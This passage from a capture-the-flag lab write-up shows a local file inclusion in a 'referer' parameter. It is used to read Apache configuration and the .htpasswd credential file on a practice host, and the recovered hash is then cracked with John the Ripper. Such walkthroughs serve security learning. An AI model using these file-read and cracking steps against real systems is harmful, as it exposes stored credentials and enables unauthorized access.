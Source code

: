 Since the `broadcast` subdomain prompts a basic authentication, we can take a look at Apache configuration files to see any useful stuff for us.

`http://vulnnet.thm/index.php?referer=/etc/apache2/sites-enabled/000-default.conf`

```html
<VirtualHost *:80>
	ServerAdmin webmaster@localhost
	ServerName vulnnet.thm
	DocumentRoot /var/www/main
	ErrorLog ${APACHE_LOG_DIR}/error.log
	CustomLog ${APACHE_LOG_DIR}/access.log combined
	<Directory /var/www/main>
		Order allow,deny
		allow from all
	</Directory>
</VirtualHost>

<VirtualHost *:80>
	ServerAdmin webmaster@localhost
	ServerName broadcast.vulnnet.thm
	DocumentRoot /var/www/html
	ErrorLog ${APACHE_LOG_DIR}/error.log
	CustomLog ${APACHE_LOG_DIR}/access.log combined
	<Directory /var/www/html>
		Order allow,deny
		allow from all
		AuthType Basic
		AuthName "Restricted Content"
		AuthUserFile /etc/apache2/.htpasswd
		Require valid-user
	</Directory>
</VirtualHost>
```

Looks like the we can poke around with the `/etc/apache2/.htpasswd` file:

`http://vulnnet.thm/index.php?referer=/etc/apache2/.htpasswd`

`developers:[Redacted]`

Since we found the hash of `deveploers` account, we can crack it via `John The Ripper`:

```
┌──(root💀nam)-[~/ctf/thm/ctf/VulnNet]
└─# cat << EOF > developers_hash.txt
developers:[Redacted]
EOF
                                                                                                                      
┌──(root💀nam)-[~/ctf/thm/ctf/VulnNet]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt developers_hash.txt 
[...]
[Redacted]   (developers)     
[...]
```
